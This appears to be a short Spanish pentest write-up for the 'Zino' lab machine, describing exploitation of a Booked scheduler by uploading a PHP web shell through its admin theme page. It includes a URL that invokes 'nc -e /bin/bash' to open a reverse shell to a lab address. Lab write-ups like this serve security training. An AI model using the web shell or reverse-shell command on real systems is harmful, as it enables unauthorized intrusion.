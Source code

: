 ## DESCRIPTION


![[Pasted image 20230627183812.png]]
#### Mas información
* https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/zino


## EXPLOITATION

Existen varias opciones pero la mejor es subir una web shell php manualmente: en http://192.168.199.64:8003/booked/Web/admin/manage_theme.php?

![[Pasted image 20230627183950.png]]

Ejecutar en:

```
http://192.168.199.64:8003/booked/Web/custom-favicon.php?cmd=nc%20-e%20/bin/bash%20192.168.45.195%20445
```


## MACHINES

* Hack The Box: 
* PG: Zino

**!!NOTA IMPORTANTE!!** 